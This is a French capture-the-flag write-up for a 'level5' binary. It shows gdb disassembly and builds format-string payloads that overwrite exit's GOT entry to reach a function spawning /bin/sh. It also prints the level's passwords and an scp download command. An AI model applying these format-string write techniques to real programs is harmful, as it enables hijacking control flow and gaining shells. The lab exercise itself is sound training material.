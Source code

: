 On se connecte sur le level5, ou se trouve un **binaire** <code>level5</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level5 -q
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
(gdb) > disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```
En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```
On trouve une fonction **o** non-utilisé dont l'adresse est **0x080484a4**:

```gdb
(gdb) > disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
On va donc chercher à overflow sur le printf dans **n** pour pouvoir arriver sur **o** qui lancera un <code>/bin/sh</code>.

On cherche l'**offset** :
<pre><code>
> python -c 'print "AAAA" + "|%08x" * 4' | ./level5
AAAA|00000200|b7fd1ac0|b7ff37d0|41414141
</code></pre>
>Ici 4

On cherche ensuite l'adresse d'**exit**:
```gdb
(gdb) > disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```
> Ici 0x8049838

On vérifie qu'on arrive à modifier l'adresse:
<pre><code>
> python -c 'print "\x38\x98\x04\x08" + "%4$08n"' > /tmp/payload3
(gdb) > -q level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) > set disassembly-flavor intel
(gdb) > disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) >  b * 0x080484f3
Breakpoint 1 at 0x80484f3
(gdb) >  b * 0x080484ff
Breakpoint 2 at 0x80484ff
(gdb) > run < /tmp/payload3
Starting program: /home/user/level5/level5 < /tmp/payload3

Breakpoint 1, 0x080484f3 in n ()
(gdb) > disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
(gdb) continue
Continuing.
8�

Breakpoint 2, 0x080484ff in n ()
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x00000004
</code></pre>
> D'un breakpoint à l'autre (entre printf et exit) la valeur a bien été modifée.

## Résolution 1

Notre objectif étant **0x080484a4** on lui soustrait la valeur déjà existante dans exit on obtien la taille de champ a ajouter.
```gdb
(gdb) > p 0x080484a4 - 4
$1 = 134513824
```

<pre><code>
> (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$08n"'; cat) | ./level5
...
cd ../level6 && cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
</code></pre>

Cependant le résultat n'apparait pas avant un long moment (affichage des 134.513.824 espaces) c'est pourquoi une deuxième façon de faire est plus pratique.

## Résolution 2
Pour simplifier et afficher moins de taille de champ, on coupe l'adresse en 2 parties.
```
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) quit
0x08           04           83           d6
0x0x804983b    0x804983a    0x8049839    0x8049838
```
Les parties sont :
<pre><code>0x804983a: 0x0804
0x8049838: 0x83d6 
</code></pre>
L'objectif étant **0x080484a4** soit **0x0804 | 0x84a4**, seule la 2ème partie a besoin d'être modifée.
On essaie à nouveau de modifier la valeur mais partie par partie:
<pre><code>python -c 'print "\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%4$hn" + "%5$hn"' > /tmp/test
(gdb) > run < /tmp/test
Starting program: /home/user/level5/level5 < /tmp/test

Breakpoint 1, 0x080484f3 in n ()
(gdb) > disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
(gdb) > continue
Continuing.
8:�

Breakpoint 2, 0x080484ff in n ()
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x00080008
</code></pre>
Les partie sont modifiées et initialisées à 8 on calcule donc la différence avec l'objectif et on applique.
```gdb
(gdb) > p 0x84a4 - 0x8
$1 = 33948
```
Auquel il faut rajouter 4 si on ne met pas la premiere partie dans la commande.
<pre><code> > (python -c 'print "\x38\x98\x04\x08" + "%33952d" + "%4$hn"'; cat) | ./level5
cd ../level6 && cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
</code></pre>

For download :
<pre><code>scp -P4242 level5@192.168.1.78:level5 .</code></pre>
> Password : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
